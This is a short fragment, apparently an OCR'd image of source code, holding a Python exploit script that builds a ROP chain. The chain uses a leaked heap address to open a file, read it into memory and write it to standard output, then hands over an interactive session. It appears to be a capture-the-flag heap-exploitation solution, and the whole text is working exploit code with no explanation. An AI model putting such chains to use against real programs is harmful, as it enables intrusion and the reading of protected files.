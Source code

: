 ```python
payload+= flat(
    poprdi, heap_leak + 0xa10,
    poprdx, 0x0, 0,
    poprsi, 0,
    poprax, 2,
    syscall,
    
    poprax, 0,
    poprdi, 3,
    poprsi, heap_leak+ 0xa10,
    poprdx, 0x100, 0,
    syscall,
    
    poprax, 1,
    poprdi, 1,
    poprsi, heap_leak+ 0xa10,
    poprdx, 0x100, 0,
    syscall
)
write(1, 0x280-0x10, payload)
p.interactive()

```